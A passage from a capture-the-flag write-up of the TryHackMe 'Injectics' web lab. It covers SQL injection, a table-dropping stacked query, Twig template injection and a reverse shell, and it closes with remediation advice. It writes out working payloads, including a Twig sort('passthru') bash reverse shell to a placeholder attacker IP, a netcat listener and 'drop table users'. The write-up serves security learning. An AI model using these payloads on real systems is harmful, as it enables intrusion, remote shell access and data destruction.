This step connects directly back to Technique 1. The leaked `mail.log` email explained that a scheduled service, **InjecticsService**, runs every minute and will **automatically re-insert default credentials into the `users` table whenever it is missing or corrupted** — specifically `superadmin@injectics.thm` / `superSecurePasswd101`.

By deliberately dropping the `users` table (Technique 5), the recovery service was forced to repopulate it with those exact, previously-leaked default credentials — turning an otherwise destructive SQLi side-effect into a **reliable way to guarantee a known-good admin credential pair existed in the database**, even though the earlier direct login attempt with those same credentials had failed (Figure 4).

After waiting roughly 1–2 minutes for the restore to complete, the leaked credentials were retried against the dedicated admin login page:

```
URL:      http://10.49.167.83/adminLogin007.php
Email:    superadmin@injectics.thm
Password: superSecurePasswd101
```

**Result:** Login succeeded, redirecting to `dashboard.php` with full administrative privileges.


*Figure 15 — The previously-leaked superadmin credentials successfully authenticating on adminLogin007.php, now that InjecticsService has restored the users table with its default values.*


*Figure 16 — The authenticated admin dashboard ("Welcome, admin!") displaying the first objective's flag: THM{INJECTICS_ADMIN_PANEL_007}.*

**Objective 1 — Admin Panel Flag:** `THM{INJECTICS_ADMIN_PANEL_007}`

---

### 7. Server-Side Template Injection (SSTI) — Detection

**Category:** Web Application Exploitation — Server-Side Template Injection (Twig)

With full admin access, the **"Update Profile"** feature (`update_profile.php`) was reviewed next, as it was a newly-visible navigation item not present for unauthenticated or lower-privilege sessions.


*Figure 17 — The admin-only "Update Profile" page, reached via the new navigation link that appeared after authenticating as superadmin.*

A standard SSTI detection probe was submitted in the **First Name** field:

```
{{7*7}}
```


*Figure 18 — The arithmetic SSTI probe {{7*7}} entered into the First Name field of the Update Profile form.*

After submitting and returning to the dashboard, the welcome banner — which renders the user's first name — displayed the evaluated result instead of the literal string:

```
Welcome, 49!
```

This confirmed that user-supplied input was being passed through a template engine and evaluated as code rather than treated as plain text — a **Server-Side Template Injection** vulnerability. The result (`49`, not `7777777`) indicated a **Twig**-style engine (PHP) rather than Jinja2 (Python), where the same expression would instead repeat the string seven times due to Python's string-multiplication behaviour.


*Figure 19 — The dashboard welcome banner showing "Welcome, 49!" — confirming the {{7*7}} expression was evaluated server-side by a Twig template engine, rather than displayed as literal text.*

---

### 8. SSTI → Remote Code Execution (Twig `map`/`sort` Filter Abuse) & Reverse Shell

**Category:** Remote Code Execution — Template Engine Sandbox Escape

Twig does not expose a direct `system()`-style function call by default, but its built-in **`sort`** filter accepts any PHP callable as a comparison function — including dangerous functions such as `passthru()`. By passing an array of shell-command strings and specifying `passthru` as the "sort" callback, Twig can be coerced into executing arbitrary operating-system commands as a side effect of trying to "sort" the array:

```twig
{{['bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/1234 0>&1"','']|sort('passthru')}}
```

A netcat listener was started on the attacking machine first, to catch the resulting reverse shell connection:

```bash
nc -lvnp 1234
```

The payload above was then submitted into the **First Name** field of `update_profile.php` and the form submitted:


*Figure 20 — The Twig RCE payload (`sort('passthru')` reverse-shell one-liner) submitted through the First Name field, with the application confirming "Profile updated successfully."*

The listener caught the incoming connection immediately as a `www-data` shell:

```bash
www-data@injectics:/var/www/html$ ls
adminLogin007.php  banner.jpg  composer.json  composer.lock  conn.php  css
dashboard.php  edit_leaderboard.php  flags  functions.php  index.php
injecticsService.php  js  login.php  logout.php  mail.log  script.js
styles.css  update_profile.php  vendor

www-data@injectics:/var/www/html$ cd flags
www-data@injectics:/var/www/html/flags$ ls
5d8af1dc14503c7e4bdc8e51a3469f48.txt

www-data@injectics:/var/www/html/flags$ cat 5d8af1dc14503c7e4bdc8e51a3469f48.txt
THM{5735172b6c147f4dd649872f73e0fdea}
```


*Figure 21 — The netcat listener receiving the www-data reverse shell, listing the server-side flags directory, and reading the hidden flag file 5d8af1dc14503c7e4bdc8e51a3469f48.txt directly from the filesystem.*

**Objective 2 — Hidden Flags-Folder File:** `THM{5735172b6c147f4dd649872f73e0fdea}`

---

## Other Details

### Troubleshooting Notes

- **`mail.log` credentials initially failed.** The leaked `superadmin` credentials did not authenticate on `adminLogin007.php` at first (Figure 4). This made sense only in hindsight: the credentials became valid again specifically because the `users` table was later dropped and automatically repopulated with those exact defaults by `InjecticsService` — the mail.log email had to be re-read carefully to realise this connection mattered.
- **Reading the wrong JavaScript file first.** An early attempt to inspect the client-side filter opened `jquery.min.js` (a third-party library) instead of the application's own custom `script.js`. Checking the Network tab for the actual filename referenced by the login form's AJAX call was necessary to find the real validation logic.
- **Manual SQLi payloads initially failed silently.** Both `' OR '1'='1' -- -`-style payloads (tried in the `username` field via the browser, and the `password` field via Burp) returned a generic "Invalid email or password" with no SQL error — giving no immediate feedback on whether injection was even possible. Automating detection with sqlmap (rather than continuing to guess manually) was what confirmed the injection point and the correct working payload syntax.
- **The `isadmin` URL parameter was a dead end.** The login response's `redirect_link` field inconsistently showed `isadmin=false` despite `is_admin: "true"` in the same JSON body, suggesting a possible parameter-based access-control flaw. Manually appending `?isadmin=true` to `dashboard.php` did not change the rendered page — the real route to admin content turned out to be the credential-recovery technique (Technique 6), not this parameter.
- **The stacked-query payload dropped `users` instead of just editing it.** This initially looked like a dead end / accidental damage to the lab environment. Re-reading the earlier `mail.log` disclosure clarified that this was very likely the intended path: the service's auto-restore behaviour exists specifically to make the table-drop recoverable, and to guarantee the leaked default credentials become valid.
- **Twig vs Jinja2 confirmation mattered for payload syntax.** The `{{7*7}}` → `49` result (rather than `7777777`) ruled out a Python/Jinja2-style backend early, which avoided wasted time trying Python object-traversal RCE payloads (`__class__.__mro__...`) that would not have worked against this PHP/Twig backend.

### Attack Chain Overview

1. Page-source review of `login.php` discloses a developer comment pointing to `mail.log`
2. Direct, unauthenticated request to `mail.log` leaks default credentials and describes `InjecticsService`'s auto-restore behaviour
3. Review of `script.js` reveals the client-side keyword blacklist only checks `username`, never `password`, and is case-sensitive
4. Burp Suite used to intercept and freely edit the login POST request, bypassing the client-side filter entirely
5. sqlmap confirms genuine server-side SQL injection (MySQL, time-based blind) in the `username` POST parameter of `functions.php`
6. SQLi-based login grants an initial authenticated (non-superadmin) session
7. Browser DOM inspection of the leaderboard "Edit" feature reveals a hidden, unsanitised `rank` field
8. A stacked-query payload (`4; drop table users -- -`) submitted via that field drops the entire `users` table
9. `InjecticsService` automatically restores `users` with its hardcoded default credentials (per the mail.log disclosure)
10. The originally-leaked `superadmin` credentials now authenticate successfully on `adminLogin007.php` → **Objective 1 flag retrieved**
11. The admin-only "Update Profile" feature's `First Name` field is found vulnerable to SSTI (`{{7*7}}` → `49`, confirming Twig)
12. Twig's `sort('passthru')` filter-abuse technique achieves Remote Code Execution
13. A reverse shell payload is submitted via the same field, caught with a netcat listener as `www-data`
14. The `/var/www/html/flags/` directory is listed and the hidden flag file is read directly → **Objective 2 flag retrieved**

### Remediation Recommendations

- **Remove sensitive log files from the web root.** `mail.log` should never be placed in a publicly-servable directory; application logs belong outside `DOCUMENT_ROOT` or behind authentication, and should never contain plaintext credentials in the first place.
- **Never rely on client-side validation for security controls.** The keyword blacklist in `script.js` provided zero actual protection, since it could be bypassed trivially by intercepting the request or simply disabling JavaScript. All input validation and sanitisation must be enforced server-side.
- **Use parameterised queries / prepared statements for all database access.** Every vulnerable endpoint identified (`functions.php`, `edit_leaderboard.php`) built SQL via raw string concatenation; binding user input as query parameters eliminates both the authentication-bypass and stacked-query vulnerabilities entirely.
- **Disable support for stacked (multi-statement) queries** at the database driver/connection level unless explicitly required, to prevent a single injection point from being escalated into arbitrary destructive or administrative SQL statements.
- **Remove or secure the automatic credential-restoration service.** `InjecticsService`'s behaviour of re-inserting hardcoded default credentials whenever the `users` table is deleted is a severe design flaw — it guarantees a known, static, and easily-leaked credential pair will always eventually become valid again, regardless of any other hardening applied to the login flow. Any legitimate disaster-recovery mechanism should alert administrators and require manual, out-of-band credential reset rather than auto-inserting static secrets.
- **Never render untrusted user input through a template engine's evaluation context.** The "Update Profile" feature should treat the `First Name`/`Last Name` fields as plain data (e.g. via `{{ user.first_name }}` with proper autoescaping against a fixed, trusted template — not by compiling user-supplied strings as template source).
- **Apply least privilege to the web application's database and OS accounts**, and disable dangerous PHP functions (`passthru`, `exec`, `system`, `shell_exec`, etc.) via `disable_functions` in `php.ini` where the application has no legitimate need to invoke the shell, which would have prevented the SSTI from escalating to full command execution even if the template injection itself remained unpatched.

---

## References

- TryHackMe Room — Injectics: <https://tryhackme.com/room/injectics>
- Video Walkthrough: <https://www.youtube.com/watch?v=2ruk0rDNNEA>
